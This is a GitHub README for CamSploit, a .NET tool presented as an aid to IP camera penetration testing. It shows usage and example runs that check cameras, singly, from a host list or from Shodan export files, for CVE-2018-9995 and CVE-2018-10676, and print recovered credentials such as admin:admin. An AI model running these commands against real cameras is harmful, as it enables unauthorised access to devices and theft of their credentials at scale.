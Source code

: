 ![alt tag](https://raw.githubusercontent.com/maxpowersi/CamSploit/master/Resources/icon.png)
# CamSploit v1.0.1
CamSploit is an exploiting tool that helps in the IP camera pentest. It was developed using Dot Net Core (compatible with Windows and Linux), tested in windows 10 and Ubuntu 16. It has got a modular collection of exploits. You can create your own modules to expands the currents exploits. CamSploit is distributed under the GNU GPLv3 license. In the next weeks, it will be added more than 10 exploits.
## Usage
```
dotnet CamSploit.dll --help
CamSploit 1.0.1
Copyright (C) 2018 CamSploit
ERROR(S):
Required option 'rhost' is missing.
Required option 'rhost-list' is missing.
Required option 'rhost-shodan-file' is missing.
Required option 'show-exploit' is missing.

  --rhost                Required. Single host in format IP:Port, example 192.168.0.1:80

  --rhost-list           Required. Text file with one single full host (IP:Port) per line.

  --rhost-shodan-file    Required. JSON Shodan data file, example: data.json

  --show-exploit         Required. Show all exploits in the application or the description of one exploit.

  --output               (Default: output.camsploit.txt) Output file (it is optional).

  --exploits             List of exploits separated by spaces, example CVE_2018_9995,CVE-2018-10676

  --help                 Display this help screen.

  --version              Display version information.

```
## Example
```
dotnet CamSploit.dll  --show-exploit  ALL
CVE-2018-9995
CVE-2018-10676

dotnet CamSploit.dll  --show-exploit  CVE-2018-9995
CVE-2018-9995: Gets DVR Credentials in many vendors that responds using the banner 'Server: GNU rsp/1.0'

dotnet CamSploit.dll  --rhost  192.168.0.1:8080
Testing CVE-2018-9995 for Cam 192.168.0.1:8080
The Cam 192.168.0.1:8080 is not vulnerable for the CVE-2018-9995
Testing CVE-2018-10676 for Cam 192.168.0.1:8080
The Cam 192.168.0.1:8080 is not vulnerable for the CVE-2018-10676

dotnet CamSploit.dll  --rhost  192.168.0.1:8080 --exploits CVE-2018-9995
Testing CVE-2018-9995 for Cam 192.168.0.1:8080
The Cam 192.168.0.1:8080 is not vulnerable for the CVE-2018-9995

dotnet CamSploit.dll  --rhost  192.168.0.1:8080 --exploits CVE-2018-9995,CVE-2018-10676 --output "result.txt"
Testing CVE-2018-9995 for Cam 192.168.0.1:8080
The Cam 192.168.0.1:8080 is vulnerable for the CVE-2018-9995 the result is admin:admin
Testing CVE-2018-10676 for Cam 192.168.0.1:8080
The Cam 192.168.0.1:8080 is vulnerable for the CVE-2018-10676 the result is {null}:{null} - Please to get the username and password check the following memory dump:
```
